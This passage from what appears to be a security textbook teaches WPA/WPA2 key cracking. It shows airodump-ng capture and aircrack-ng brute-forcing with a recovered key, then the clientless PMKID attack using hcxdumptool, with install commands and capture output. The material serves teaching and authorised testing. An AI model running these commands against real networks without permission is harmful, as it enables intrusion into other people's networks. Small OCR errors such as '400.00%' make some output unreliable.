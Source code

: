 ```` ``` # **airmon-ng check kill**  # **airodump-ng** **-c** **6** **--bssid 0C:0C:0C:0C:0C:0C wlan0mo -w dump** ```    Once we’ve captured frames for a couple of minutes, we start our brute-force attack to crack the key. We can do this quickly using Aircrack-ng:    ``` # **aircrack-ng -a2 -b 0C:0C:0C:0C:0C:0C -w list dump-01.cap**                               Aircrack-ng 1.5.2        [00:00:00] 4/1 keys tested (376.12 k/s)        Time left: 0 seconds                                     400.00%                             KEY FOUND! [ 24266642 ]          Master Key     : 7E 6D 03 12 31 1D 7D 7B 8C F1 0A 9E E5 B2 AB 0A                         46 5C 56 C8 AF 75 3E 06 D8 A2 68 9C 2A 2C 8E 3F          Transient Key  : 2E 51 30 CD D7 59 E5 35 09 00 CA 65 71 1C D0 4F                         21 06 C5 8E 1A 83 73 E0 06 8A 02 9C AA 71 33 AE                         73 93 EF D7 EF 4F 07 00 C0 23 83 49 76 00 14 08                         BF 66 77 55 D1 0B 15 52 EC 78 4F A1 05 49 CF AA        EAPOL HMAC     : F8 FD 17 C5 3B 4E AB C9 D5 F3 8E 4C 4B E2 4D 1A ```    We recover the PSK: `24266642`.    Note that some networks use more complex passwords, making this technique less feasible.    #### PMKID Attacks    In 2018, a Hashcat developer nicknamed atom discovered a new way to crack the WPA/WPA2 PSK and outlined it in the Hashcat forums. The novelty of this attack is that it’s clientless; the attacker can target the AP directly without having to capture the four-way handshake. In addition, it’s a more reliable method.    This new technique takes advantage of the *Robust Security Network (RSN)* PMKID field, an optional field normally found in the first EAPOL frame from the AP. The PMKID gets computed as follows:    ``` PMKID = HMAC-SHA1-128(PMK, “PMK Name” | MAC_AP | MAC_STA) ```    The PMKID uses the HMAC-SHA1 function with the PMK as a key. It encrypts the concatenation of a fixed string label, `"PMK Name"`; the AP’s MAC address; and the wireless station’s MAC address.    For this attack, you’ll need the following tools: Hcxdumptool, Hcxtools, and Hashcat. To install Hcxdumptool, use the following commands:    ``` $ **git clone https://github.com/ZerBea/hcxdumptool.git** $ **cd hcxdumptool && make &&** **sudo** **make install** ```    To install Hcxtools, you’ll first need to install `libcurl-dev` if it’s not already installed on your system:    ``` $ **sudo apt-get install libcurl4-gnutls-dev** ```    Then you can install Hcxtools with the following commands:    ``` $ **git clone https://github.com/ZerBea/hcxtools.git** $ **cd hcxtools && make &&** **sudo** **make install** ```    If you’re working on Kali, Hashcat should already be installed. On Debian-based distributions, the following command should do the trick:    ``` $**sudo** **apt install hashcat** ```    We first put our wireless interface in monitor mode. Follow the instructions in “Deauthentication and Denial-of-Service Attacks” on page 289 to do this.    Next, using `hcxdumptool`,we start capturing traffic and save it to a file:    ``` # **hcxdumptool -i wlan0mon –enable_status=31 -o sep.pcapng –filterlist_ap=whitelist.txt --filtermode=2** initialization... warning: wlan0mon is probably a monitor interface  start capturing (stop with ctrl+c) INTERFACE................: wlan0mon ERRORMAX.................: 100 errors FILTERLIST...............: 0 entries MAC CLIENT...............: a4a6a9a712d9 MAC ACCESS POINT.........: 000e2216e86d (incremented on every new client) EAPOL TIMEOUT............: 150000 REPLAYCOUNT..............: 65165 ANONCE...................: 6dabefcf17997a5c2f573a0d880004af6a246d1f566ebd04c3f1229db1ada39e ... [18:31:10 – 001] 84a06ec17ccc -> ffffffffff Guest [BEACON, SEQUENCE 2800, AP CHANNEL 11] ... [18:31:10 – 001] 84a06ec17ddd -> e80401cf4fff [FOUND PMKID CLIENT-LESS] [18:31:10 – 001] 84a06ec17eee -> e80401cf4aaa [AUTHENTICATION, OPEN SYSTEM, STATUS 0, SEQUENCE 2424] ... INFO: cha=1, rx=360700, rx(dropped)=106423, tx=9561, powned=21, err=0 INFO: cha=11, rx=361509, rx(dropped)=106618, tx=9580, powned=21, err=0 ```    Make sure you apply the `–filterlist_ap` argument with your target’s MAC address when using Hcxdumptool so you don’t accidentally crack the password for a network you have no permission to access. The `--filtermode` option will blacklist (`1`) or whitelist (`2`) the values in your list and then either avoid or target them. In our example, we listed these MAC addresses in the *whitelist.txt* file.    The output found a potentially vulnerable network, identified by the `[FOUND PMKID]` tag. Once you see this tag, you can stop capturing traffic. Keep in mind that it might take some time before you encounter it. Also, because the PMKID field is optional, not all existing APs will have one.    Now we need to convert the captured data, which includes the PMKID data in the *pcapng* format, to a format that Hashcat can recognize: Hashcat takes hashes as input. We can generate a hash from the data using `hcxpcaptool`: